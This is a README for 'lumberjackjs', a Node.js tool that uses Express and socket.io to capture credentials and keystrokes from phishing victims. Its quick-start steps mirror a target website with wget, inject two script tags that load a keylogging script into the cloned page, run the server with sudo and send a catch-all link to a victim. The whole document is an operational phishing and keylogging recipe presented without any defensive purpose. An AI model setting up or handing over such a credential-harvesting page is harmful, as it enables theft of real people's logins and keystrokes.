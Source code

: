 lumberjackjs
============

Express and socket.io to capture and send credentials from a victim. Uses client side Javascript to capture keys for seamless site cloning. Simply clone a site, add 2 lines of html, and you're good to go. Send any link to your victim as the server uses a catch all url '*'. No need to setup a full mirror and duplicate directory structure.

#### Quick Start

1. Clone repo and install modules

        git clone https://github.com/tomsteele/lumberjackjs.git
        cd lumberjackjs
        npm install
        
2. Clone a site and mv to index.html

        wget -mk <some site>
        mv <some site>.html index.html
        
3. Add two lines to index.html

        <script src="/socket.io/socket.io.js"></script>
        <script src="/k.js"></script>

4. Start server

        sudo node app

5. Send a link to your victim and capture credentials
        
